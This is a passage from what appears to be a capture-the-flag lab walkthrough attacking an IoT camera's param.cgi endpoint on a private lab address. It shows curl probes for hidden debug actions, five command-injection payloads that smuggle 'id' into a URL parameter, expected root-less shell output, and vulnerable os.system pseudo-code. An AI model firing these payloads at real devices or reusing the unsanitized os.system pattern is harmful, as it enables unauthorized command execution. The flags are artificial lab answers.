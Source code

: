 ```bash
# Test for special debug actions
# Why: Developers often leave debug functions
curl "http://192.168.1.132/axis-cgi/param.cgi?action=debug"
curl "http://192.168.1.132/axis-cgi/param.cgi?action=test"
curl "http://192.168.1.132/axis-cgi/param.cgi?action=getflag"
```

**Expected Output for getflag:**
```
Debug mode enabled
System flag: FLAG{PIPPIN67800950}
Execution time: 0.003s
```

> 🏁 **FLAG #4 FOUND!**
> **Flag**: FLAG{P***********0}
> **Learning Objective**: Hidden debug functionality
> **OWASP IoT**: #8 - Lack of Device Management

### Command Injection Vulnerability

#### Testing param.cgi for Command Injection

```bash
# Test various injection techniques
# Why: CGI scripts often pass user input to system commands

# Technique 1: Semicolon separator
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list;id"

# Technique 2: Pipe operator
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list|id"

# Technique 3: AND operator
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list&&id"

# Technique 4: Backticks (command substitution)
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list\`id\`"

# Technique 5: Dollar sign substitution
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list\$(id)"
```

**Expected Output (semicolon worked):**
```
Error: Invalid action
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Why Command Injection Works Here:**
```python
# Vulnerable pseudo-code:
action = request.GET['action']
os.system(f"process_action.sh {action}")  # User input passed directly!
```
